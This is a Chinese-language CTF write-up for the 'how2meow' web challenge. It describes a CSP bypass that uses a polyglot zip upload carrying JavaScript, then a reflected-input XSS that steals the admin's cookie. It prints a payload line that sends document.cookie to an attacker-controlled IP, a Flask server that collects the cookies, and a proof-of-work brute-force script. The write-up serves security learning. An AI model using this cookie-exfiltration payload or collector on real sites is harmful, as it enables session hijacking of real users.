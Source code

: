 # how2meow

Web, 251/500 Points

Auther: **kaibro**

Writeup By: **yctseng1227**、**stavhaygn**

## Description

> 由於官方題目網站已關閉，以下只能簡述題目

從題目給的網站，我們有三種操作頁面大致如圖。

![](./arch.png)

## Solution

> 由於官方題目網站已關閉，以下只能拿競賽期間的截圖作為示意圖

### 初步操作

- Meow me

    隨意輸入字串，送出後只會吐出輸入的的字串。

- Meow Uploader

    上傳任何檔案，送出後只會吐出該檔案的副檔名。

    另外還有提供 `Meow src` 可以從source code觀察後台執行方式。

- Report to admin

    可以輸入URL以及PoW驗證，很明顯是拿flag的最後一步。


### 實際操作

從 `Meow me` 頁面按下`F12`可以發現亮了一大片紅字 =口=!!

![](./01.png)

拿去 [CSP-evaluator](https://csp-evaluator.withgoogle.com/) 發現該網站CSP機制不完全，可嵌入在該網站上傳的檔案。

從 `Meow Uploader` 可以點 `Meow src`(source code) 發現上傳只接受副檔名為 `.meow` 的檔案，接著對其檔案執行 `unzip` 指令，檢查解壓縮後為 `meow` 的檔案，是否開頭為 "edu-ctf" 字串，若檢查皆成功，將成功上傳檔案，否則上傳檔案失敗。

因此配合前面提到的 `Meow me` ，我們可以對剛檔案做一些壞壞的事^~^+


[m.meow](./m.meow)
```
document.location='http://140.117.xxx.xxx:9487/?c=' + document.cookie;
/*
PK...
*/
```


以 `m.meow` 來說，除了原本壓縮檔的binary code，我們在開頭插入JS code，想藉由跳轉的方式，讓admin的cookies能夠自動傳到我們自己建的伺服器中，而該檔案上傳到官方伺服器後，會出現該檔案的位置（示意圖如下）。

![](./03.png)


既然有了檔案在官方伺服器的位置，那我們也能夠利用 `Meow me` 輸入JS code去觸發該檔案讓其執行`m.meow`內的JS code（示意圖如下）。

![](./02.png)

作為Web初學者，下方也說明一下如何快速自建伺服器。

> 作業環境 Ubuntu 18.04 / Python 3.6

```shell
$ sudo pip3 install flask
$ sudo pip3 install flask_cors
$ python3 app.py
```

[app.py](./app.py)
```python
from flask import Flask, request
from flask_cors import CORS

app = Flask(__name__)
CORS(app)

@app.route('/')
def index():
    cookie = request.args.get('c', None)
    if cookie:
        return cookie
    return 'hELLo'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=9487)
```

建好伺服器後，送出 `Meow me` 的時候應該多少會收到PHPSESSID，那就是有成功運作～

而 `Meow me` 頁面送出 URL request 就是我們最後要拿去 `Report to admin` 的XSS URL。

除此之外，還需要計算PoW，相關介紹可以參考另一篇 Writeup [Ponzi Scheme](https://github.com/MacacaHub/CTF-writeups/blob/master/AIS3%20EOF%20CTF%202019/Ponzi%20Scheme/readme.md)，不過作法上可以直接Python用排列組合爆搜答案即可。

```python
#!/usr/bin/env python3
import itertools
import string
from hashlib import *
from pwn import *

cond = "kaibro"
#cond = r.recvuntil("'").decode('ascii').rstrip("'")
ans = ''
alphanumeric = string.ascii_uppercase + string.ascii_lowercase + string.digits
for s in itertools.product(alphanumeric, repeat=4):
    if md5(('%s%s'%(cond, ''.join(s))).encode('utf-8')).hexdigest().startswith('6b509'):
        ans = cond + ''.join(s)
        break

print(ans)
```

最後送出 `Report to admin` 結果如下，可以從自建的伺服器收到官方傳過來的 admin's cookies，稍微整理一下就是FLAG啦！


![](./04.png)


**`FLAG{u_r_m3ow_xss_m4ster}`**


---

延伸閱讀：
- [Content-Security-Policy](https://devco.re/blog/2014/04/08/security-issues-of-http-headers-2-content-security-policy/)
- [同源政策（Same Origin Policy）](https://medium.com/@jaydenlin/same-origin-policy-同源政策-一切安全的基礎-36432565a226)
